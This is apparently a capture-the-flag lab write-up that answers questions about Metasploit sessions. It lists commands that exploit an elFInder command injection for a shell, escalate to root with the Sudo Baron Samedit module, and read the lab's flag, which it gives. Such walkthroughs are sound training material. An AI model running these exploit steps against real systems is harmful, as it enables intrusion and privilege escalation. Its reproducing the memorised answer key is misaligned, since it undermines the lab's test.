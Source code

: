 # Sessions & Jobs

### The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

elFInder

### Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

```bash
msfcosnole
search elFInder
use exploit/linux/http/elfinder_archive_cmd_injection
set rhosts
set lhost
set lport
run
getuid
www-data
```

### The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

```bash
background
search sudo
use exploit/linux/local/sudo_baron_samedit
set rhosts
set lhost
set lport
set session
run
getuid # root
cat /root/flag.txt
HTB{5e55ion5_4r3_sw33t}
```
